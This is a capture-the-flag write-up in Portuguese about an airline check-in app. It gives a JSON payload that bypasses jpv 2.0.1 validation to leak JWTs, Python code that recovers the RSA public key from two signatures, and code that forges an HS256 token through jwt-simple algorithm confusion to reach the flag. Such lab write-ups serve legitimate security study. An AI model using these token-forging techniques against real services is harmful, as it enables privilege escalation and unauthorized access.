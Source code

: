 ## Overview

Temos uma aplicação web de check-in em uma companhia aérea. Existem dois endpoints: /checkin e /upgrades.

A função que recupera a flag é bem óbvia e é mostrada no código a seguir, que é uma requisição do tipo POST para /upgrades/flag:

```
router.post('/flag', [getLoyaltyStatus], function(req, res, next) {
  if (res.locals.token && res.locals.token.status == "gold") {
    var response = {msg: config.flag };
  } else {
    var response = {msg: "You do not qualify for this upgrade at this time. Please fly with us more."};
  }
  res.json(response);
});
```

Com isso, percebe-se que uma manipulação no token de acesso já nos daria acesso a ela.

Observando as dependências da aplicação, vemos uma versão vulnerável da biblioteca de verificação JPV (JSON Pattern Validator) e também uma versão de jwt-simple desatualizada. Explorando as vulnerbilidades é possível forjar um JWT, alterando o status do passageiro para "gold" e permitindo o acesso à flag.

## Vulnerabilidade JPV 2.0.1

A biblioteca jpv tem como intuito validar inputs de usuário comparando com patterns definidos a priore.

Os seguintes padrões são definidos:

```
const pattern = {
  firstName: /^\w{1,30}$/,
  lastName: /^\w{1,30}$/,
  passport: /^[0-9]{9}$/,
  ffp: /^(|CA[0-9]{8})$/,
  extras: [
    {sssr: /^(BULK|UMNR|VGML)$/},
  ],
};
```

Porém, na linha 42 de checkin.js existe a verificação ```data["extras"][e]["sssr"] == "FQTU"```
que caso seja verdadeira vaza um token JWT.

Para satisfazer essa verificação e bypassar a validação do jpv, exploramos a vulnerabilidade definida em: https://github.com/manvel-khnkoyan/jpv/issues/6.

A validação do campo extras é feita com um pattern que espera um array de objetos com sssr cujo valor seja uma das strings BULK, UMNR ou VGML. Na prática, em jpv@2.0.1 a verificação de "é array?" foi implementada de forma insegura: a biblioteca checa algo como ```obj.constructor.name === 'Array'``` (ou similar), o que é contornável porque, em JavaScript, o campo constructor de um objeto é mutável (ou é possível fornecer um objeto com ```constructor.name = "Array"```).

Utilzamos um payload como o seguinte:
```
    "firstName": "Algum",
    "lastName": "Nome",
    "passport": "123456789",
    "ffp": "CA12345678",
    "extras": {
        "x": {
            "sssr": "FQTU"
        },
        "constructor": {
            "name": "Array"
        }
    }
```

Com isso conseguimos vazar tokens diferentes apenas alterando o valor do campo "passport" ou "ffp".

## Vulnerabilidade jwt-simple (algorithm confusion / key misuse)

O JWT tem um campo "alg" no header que indica o algoritmo usado na assinatura (RS256, HS256, etc). RS256 usa RSA (chave privada para assinar, pública para verificar). Já o HS256 usa HMAC-SHA256 (um segredo simétrico compartilhado). No caso desse desafio, está sendo utilizada o algoritmo RS256 como é possível verificar no arquivo ckeckin.js:

```
function createToken(passport, frequentFlyerNumber) {
  var status = isSpecialCustomer(passport, frequentFlyerNumber) ? "gold" : "bronze";
  var body = {"status": status, "ffp": frequentFlyerNumber};
  return jwt.encode(body, config.privkey, 'RS256');
}
```

Porém, em upgrade.js o token é decodificado assim:

```
function getLoyaltyStatus(req, res, next) {
  if (req.headers.authorization) {
    let token = req.headers.authorization.split(" ")[1];
    try {
      var decoded = jwt.decode(token, config.pubkey);
    } catch {
      return res.json({ msg: 'Token is not valid.' });
    }
    res.locals.token = decoded;
  }
  next()
}
```

Ou seja, ```jwt.decode(token, key)``` está sendo chamado sem restringir o algoritmo e a chave utilizada é config.pubkey (a chave pública). Em jwt-simple@0.5.2, se o token declara "alg: HS256", a biblioteca tratará config.pubkey como o segredo para HMAC e aplicará HMAC-HS256 para verificar o token, o que é aceitável para jwt-simple, já que ela não valida se a chave é adequada ao algoritmo declarado.

Assim, se soubermos a chave pública (ou a reconstruirmos), podemos criar um JWT com "alg: HS256" e assinar com HMAC-SHA256(secret = PEM_pubkey). O servidor usará o mesmo config.pubkey na verificação e aceitará o token, pois o algoritmo no header foi HS256. Assim transformamos um token de verificação assimétrica (RS256) num token simétrico (HS256) que podemos fabricar localmente.

Continuando, com dois tokens vazados temos recursos para calcular a chave pública a partir da assinatura dos tokens. O algoritmo RS256, após realizar algumas operações de hashing sobre os headers e payload do token em base64 e fazer o padding utilizando o algoritmo PKCS#1 v1.5 (iremos chamar o valor resultante de "pt"), realiza a clássica operação RSA com a assinatura:

```
sig = pt^d mod n  // d = expoente privado
```

A verificação é feita com ```sig^e mod n == pt (mod n)```.

Para encontrar o valor do módulo n e recuperar a chave pública original, usamos uma função auxiliar get_magic() com valores de "e" arbitrários (nesse caso testamos apenas os valores mais comuns e encontramos que foi utilizado o clássico valor 65537):

```
def get_magic(jwt_token: str, e: int) -> gmpy2.mpz:
    """
    Calcula o valor sig**e - pt para um JWT assinado com RS256.
    """
    header, payload, signature = jwt_token.split(".")
    raw_signature = urlsafe_b64decode(f"{signature}==")
    raw_signature_int = gmpy2.mpz(bytes_to_long(raw_signature))

    padded_msg = pkcs1_v1_5_encode(f"{header}.{payload}".encode(), len(raw_signature))
    padded_int = gmpy2.mpz(bytes_to_long(padded_msg))

    return gmpy2.mpz(pow(raw_signature_int, e) - padded_int)
```

Temos assim um possível k*n (sendo k um número inteiro qualquer). Com os dois tokens diferentes conseguimos tirar o gcd e descobrir o valor do módulo n, tornando possível a recuperação da chave pública:

```
pubkey = RSA.construct((int(N), int(e)))
pem_rsa = pubkey.export_key()
print("\nChave pública PEM:")
print(pem_rsa)
```

Agora com a chave pública podemos montar o nosso token final. Para conseguir utilizar a chave pública sem saber a chave privada, mudamos o algoritmo de criptografia de RS256 para HS256 no header do JWT.

```{"alg": "HS256", "typ": "JWT"} ```

Testamos também mudar o "alg" para "none" como descrito em https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries, porém sem sucesso.

Assim, utilizamos a chave RSA do formato PEM como string literal para assinar o token forjado com o algoritmo HS256 e alteramos o payload para o status "gold":

```
message = f"{header_b64}.{payload_b64}"
signature = hmac.new(pem_rsa, message.encode(), hashlib.sha256).digest()
signature_b64 = b64url_encode(signature)
jwt_hs_token = f"{message}.{signature_b64}"
```

Com isso conseguimos forjar um token JWT que passa por todas as verificações e retorna a flag ao enviá-lo para o endpoint /upgrades/flag com uma requisição POST.

```
headers = {"Authorization": f"Bearer {jwt_hs_token}"}
res = requests.post(f"{URL_BASE}/upgrades/flag", headers=headers).json()
print("\nResposta do servidor:")
print(res)
# FLAG{flag_teste}
```
